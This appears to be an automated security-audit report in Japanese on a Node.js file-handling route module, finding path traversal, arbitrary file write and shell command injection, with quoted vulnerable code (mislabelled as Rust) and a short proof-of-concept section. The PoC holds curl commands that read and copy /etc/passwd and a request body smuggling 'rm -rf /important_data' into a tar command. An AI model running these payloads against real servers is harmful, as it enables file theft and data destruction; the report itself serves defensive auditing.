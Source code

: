 # 解析レポート

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 80**

## 脆弱性タイプ

- `LFI`
- `AFO`
- `RCE`

## 解析結果

本ルート定義では、ユーザ入力をファイルパスやシェルコマンドに直接組み込んでおり、パス・トラバーサル（LFI）、任意ファイル書き込み（AFO）、およびコマンドインジェクション（RCE）の脆弱性が存在します。具体的には、アップロード時にreq.file.originalnameをそのままpath.joinに渡しているため“../”等でサーバ上の任意のパスへ書き込み可能です。また、ダウンロード・読み取り・削除・メタデータ取得でも、検証なしにreq.query.filenameやreq.query.path、req.body.filenameをpath.joinへ渡しており、サーバ上の任意ファイルを列挙・読み込み・削除される可能性があります。さらに圧縮処理ではユーザー指定のファイル名配列をシェルコマンドに直結しており、シェルインジェクションによるRCEが可能です。

## PoC（概念実証コード）

```text
1) 任意書き込み (AFO):
   curl -F "file=@/etc/passwd;filename=../../../../tmp/pwned" http://host/upload
   → /tmp/pwned に /etc/passwd のコピーが作成される

2) 任意読み取り (LFI):
   curl "http://host/read?path=/etc/passwd"
   → /etc/passwd がJSONで返却される

3) コマンドインジェクション (RCE):
   POST /compress
   Body: {"files": ["file1.txt; rm -rf /important_data; echo used"], "archive_name":"out.tar.gz"}
   → execSyncでrmコマンドが実行される
```

## 関連コードコンテキスト

### 関数名: /upload endpoint
- 理由: アップロードされたファイル名を検証せずに結合しているため、`../`を含む名前で任意パスへの書き込みが可能（AFO）
- パス: repo/routes/files.js
```rust
const uploadPath = path.join(UPLOAD_CONFIG.UPLOAD_DIR, req.file.originalname);
```

### 関数名: /download endpoint
- 理由: クエリパラメータfilenameを検証せずに結合しているため、サーバ上の任意ファイルをダウンロード可能（LFI）
- パス: repo/routes/files.js
```rust
const filePath = path.join(UPLOAD_CONFIG.UPLOAD_DIR, filename);
```

### 関数名: /read endpoint
- 理由: クエリパラメータにそのまま渡しているため任意ファイルを読み取れる（LFI）
- パス: repo/routes/files.js
```rust
const { path: filePath } = req.query; const content = fs.readFileSync(filePath, 'utf8');
```

### 関数名: /list endpoint
- 理由: dirパラメータを検証せずに利用しており、サーバ上の任意ディレクトリを列挙可能（LFI）
- パス: repo/routes/files.js
```rust
const directory = dir || UPLOAD_CONFIG.UPLOAD_DIR; const files = fs.readdirSync(directory);
```

### 関数名: /compress endpoint
- 理由: ユーザー入力をシェルコマンドに展開して実行しており、シェルインジェクションでRCEが可能（RCE）
- パス: repo/routes/files.js
```rust
const command = `tar -czf ${archivePath} ${fileList}`; const output = execSync(command, { encoding: 'utf8' });
```

## 解析ノート

ステップ1: エントリポイントを調査
- upload, download, read, list, delete, extract, compress, metadataの各ルートが存在

ステップ2: ユーザ制御可能な入力を特定
- upload: req.file.originalname
- download/read/list/delete/metadata: req.query.filename, req.query.path, req.query.dir, req.body.filename
- compress: req.body.files配列, archive_name

ステップ3: データフロー追跡とサニタイズ不在の確認
- path.joinに直接流し込み
- execSyncでコマンド文字列を生成

ステップ4: 脆弱性分類
- pathベース：LFI/AFO
- shellベース：RCE

ステップ5: 影響評価
- 高権限で動作する場合、サーバ完全乗っ取りや重要ファイル読取/書き換えが可能

